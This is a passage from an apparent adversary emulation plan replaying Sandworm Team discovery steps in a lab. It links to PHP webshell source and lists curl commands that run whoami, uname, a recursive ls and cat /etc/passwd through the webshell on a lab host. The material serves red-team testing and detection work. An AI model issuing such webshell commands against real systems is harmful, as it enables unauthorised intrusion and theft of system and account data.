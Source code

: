 [Source Code](../../Resources/phpWebShell/webShell.php)

[Source Code - Obfuscated](../../Resources/phpWebShell/obfuscated_webShell.php)

### :microscope: Cited Intelligence

* https://www.us-cert.gov/ics/alerts/IR-ALERT-H-16-056-01

* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf

<br>

## Step 12 - Initial Discovery

:microphone: `voice track`

Sandworm enumerates information about the compromised system by issuing shell commands through the PHP webshell.

Executed commands include whoami, uname, ls, among others.

### :biohazard: Procedures

Execute `whoami` from P.A.S. webshell.

```bash
# Sandworm Team has collected the username from a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=whoami"
```

:information_source: The '--insecure' option is used so that curl ignores self-signed certificate warnings. Self-signed certificates are used on host Caladan/10.0.1.5 for the scenario.

Execute `uname -a` from P.A.S. webshell.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

curl --insecure "https://10.0.1.5/search.php?cmd=uname+-a"
```

Execute `ls -lsahR` from P.A.S. webshell.

```bash
# Sandworm Team has enumerated files on a compromised host.

# P.A.S. Webshell has the ability to list files and file characteristics including extension, size, ownership, and permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsahR+/"
```

Execute `cat /etc/passwd` from P.A.S. webshell.

```bash
# P.A.S. Webshell can display the /etc/passwd file on a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=cat+/etc/passwd"
```

